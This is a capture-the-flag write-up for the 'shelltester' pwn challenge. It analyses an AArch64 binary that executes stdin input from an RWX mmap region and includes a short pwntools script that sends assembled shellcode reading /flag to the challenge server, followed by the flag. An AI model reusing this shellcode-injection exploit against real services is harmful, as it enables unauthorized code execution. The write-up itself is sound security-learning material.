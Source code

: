 ## Name: shelltester
#### Category: pwn
#### Difficulty: N/A
#### Description: Test your shellcode in my safe program!

## Procedure
Running the file command I got the following output:
```
chal: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), statically linked, for GNU/Linux 3.7.0, BuildID[sha1]=ac8719a3c404a9f58dbf984c24d41ccbcf0b12d8, not stripped
```
You can see that the binary is for the ARM architecture (64-bit), also known as ARMv8-A or AArch64, this is very important for our payload. And we have the following files:

```
.
├── Dockerfile
├── chal
├── flag
├── nsjail.cfg
└── qemu-aarch64-static
```

Running the ```qemu-aarch64-static``` binary with ```chal``` we can see the following output:

```
./qemu-aarch64-static chal
Welcome to my shellcode tester!

This time in a different architecture
Just give me a shellcode and I will run it in a safe place!

```
## main() function Content from chal 
Using Ghidra, we recover the main function code:
1) ```mmap64``` function is used to allocate a memory region of size 1000 bytes
2) ```PROT_READ | PROT_WRITE | PROT_EXEC (7)```, this allows the memory to be readable, writable, and executable, which is dangerous because it enables arbitrary code execution.
3) The ```read(0, __buf, 1000)``` call reads up to 1000 bytes of input from standard input (stdin) and stores it in the memory region allocated by ```mmap64```, this effectively allows us to provide our custom shellcode.

```
  code *__buf;
  
  init(param_1);
  puts("Welcome to my shellcode tester!\n");
  puts("This time in a different architecture");
  puts("Just give me a shellcode and I will run it in a safe place!");
  __buf = (code *)mmap64((void *)0x0,1000,7,0x22,-1,0);
  read(0,__buf,1000);
  (*__buf)();
  return 0;
```

From here we dont need to do a bufferoverflow or something like that, because our shellcode will be executed directly, we just need to send it using the correct arch ```aarch64```

I wrote the following python script

```
from pwn import *


context.arch = 'aarch64'
qemu_path = 'qemu-aarch64-static'
#p = process([qemu_path, './chal'])
p = remote('shelltester.challs.csc.tf',1337)

shellcode = shellcraft.cat("/flag")
payload = asm(shellcode)

#print("shellcode",shellcode)
#print("payload",payload)

p.sendline(payload)
print(p.recv(1024))
p.interactive()
```

flag ```CSCTF{34sy_Sh3llcod3_w1th_pwnt00ls}```
